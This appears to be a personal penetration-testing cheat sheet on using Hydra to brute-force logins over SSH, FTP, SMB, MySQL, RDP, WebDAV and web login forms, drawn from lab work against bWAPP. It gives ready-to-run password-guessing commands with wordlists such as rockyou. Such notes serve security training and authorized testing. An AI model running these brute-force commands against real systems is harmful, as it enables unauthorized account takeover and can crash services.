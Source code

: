 # [Hydra](https://rodtrent.substack.com/p/using-kali-linux-and-hydra-for-attack)
> Hydra is extremely functional for brute-forcing MULTIPLE different protocols.

You may need to unzip the RockYou wordlist:
```
gzip -d /usr/share/wordlists/rockyou.txt.gz .
```

If Hydra throws an error or for some reason does not work, try [CrackMapExec](cme.md).

## Contents
- [Syntax](#general-syntax-by-usage-example)
- [Configuration](#configuration)
  - [Speed Kills, Del](#speed-kills-del)
  - [Common Options](#common-options)
- [Protocol Examples](#specific-protocol-examples): [`FTP`](#ftp), [`SMB`](#smb), [`SSH`](#ssh), [`MySQL`](#mysql), [`WebDAV`](#webdav), [`RDP`](#rdp)
- [HTTP Login Form: http-post-form](#http-login-form-http-post-form)
  - [General Syntax](#general-syntax)
  - [Intercept a Random, Invalid Login](#intercept-a-random-invalid-login)
  - [Capture a Failed Login String](#capture-a-failed-login-string)
  - [Final Syntax](#final-syntax)
  - [Additional Help](#additional-help)
- [Hydra SSH Error](#hydra-ssh-error)

## General Syntax (by usage example):

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.123:22 -t 6 -V
```

- `-l root` : attempt to login as the root user
- `-P /usr/.../unix_passwords.txt` : using a password list
- `ssh://192.168.1.123` : attacking SSH at the target IP
- `:22` : via port 22 on the target
- `-t 6` : with 6 threads
- `V` : with verbosity to see the attempts 

## Configuration

### Common Options
- `-L` or `-l` : Indicates the "Login" (capital: file of multiple; lower case for single)
- `-P` or `-p`: Indicates the "Passwords" (capital: file of multiple; lower case for single)

### Speed Kills, Del
- Be very careful with your brute-force speed. You could crash the system or DoS it. 
- The `-t` (tasks) option sets the number of connects in parallel (default is 16)
- You could set `-t 2` or `-t 3` and see if that plays nicer. Hydra actually recommends `-t 1` through `-t 4`.

## Specific Protocol Examples

### FTP
```
hydra -L [path/to/username_file.txt] -P [path/to/password_file.txt] [target ip] ftp
```

### SMB
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [target IP] smb
```

### SSH
```
hydra -l student -P rockyou.txt [ip] ssh
# or
hydra -l student -P rockyou.txt ssh://[ip]
```

### MySQL
```
hydra -l root -P /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt [target ip] mysql
```

### WebDAV
```
hydra -L /.../common-users.txt -P  /.../common-passwords.txt [target ip] http-get /webdav/
```
- `http-get` : Indicates the protocol to be used
- `/webdav/` : Indicates the directory where hydra can find the authentication mechanism

### RDP
```
hydra -L users.txt -P passwords.txt [target ip] rdp -s 3333
```
- `-s` : service port (if different than the default)

## HTTP Login Form: http-post-form
> This was taken from a lab (and the syntax is complicated). The lab used bWAPP as the vulnerable target website and Burp Suite as the proxy.

### General Syntax
```
<url>:<form parameters>:<condition string>[:<optional>[:<optional>]
#[1]    [2]             [3]  
```
1. First is the page on the server to GET from or POST to (URL of the login page)
2. Second is the POST/GET variables (taken from either the browser, proxy, etc. with url-encoded (resp. base64-encoded) usernames and passwords being replaced in the "^USER^" (resp. "^USER64^") and "^PASS^" (resp. "^PASS64^") placeholders (FORM PARAMETERS).
3. Third is the string that it checks for an *invalid* login (by default)
    - This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!

### Intercept a Random, Invalid Login
- Copy and paste the login syntax being POSTed to the server.
- Change the login variables (the random username and password you plugged in) to the **_placeholders_** required by Hydra. These placeholders function as variables and Hydra will plug in its attempts into these placeholders/variables.

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/3a32dae8-e9b6-48d6-b73e-e002cca6b7f2)

### Capture a Failed Login String
- This is where most people get it wrong. You have to check in the webapp what a failed string looks like and put it in this parameter!

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/a9bc4a0d-338c-4f16-8820-bb324eb027f8)

### Final Syntax
```
hydra -L user_list.txt -P password_list.txt http://192.103.189.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
# the 3 required arguments in the http-post-form are colon-separated:             [1] <url>    [2] <form parameters>                                   [3]  <condition string>
```

### Additional Help
```
hydra -U http-post-form
# -U : service module usage details
```

## Hydra SSH Error

### Initial Hydra Command: 

```
# hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.61.129 -t 1 -V
```

### Error Message: 

```
[ERROR] could not connect to ssh://192.168.61.129:22 - kex error : no match for method kex algos: server [diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1], client [curve25519-sha256,curve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group18-sha512,diffie-hellman-group16-sha512,diffie-hellman-group-exchange-sha256,diffie-hellman-group14-sha256]
```

### Fix: 

You need to run three commands to work around this error: 
1. Update your system: `apt update && apt full-upgrade -y`
2. Confirm the kali-tweaks package is installed: `dpkg -l | grep kali-tweaks`
3. Run `kali-tweaks` and enable the SSH Wide Compatability module. If it is already enabled, disable it, exit, then go in again and enable it once more.
   - In the Main Menu of kali-tweaks, choose the first option: "Hardening."  
   - Select "SSH client" (arrow down to it, press spacebar to select)  
   - Arrow down (or tab) to "Apply" and hit ENTER.  
   - ENTER on "Ok" to Proceed (ENTER on the command line to continue)  
   - TAB to "Quit" and hit ENTER  

Try your Hydra command again and it should work.

You may want to go back into kali-tweaks and deselect that SSH configuration once you're finished so it doesn't jack up something else on your system. 

Workaround Source: https://youtu.be/fKVLVNaVXF0?si=mZOmHXwnHbISLeMQ




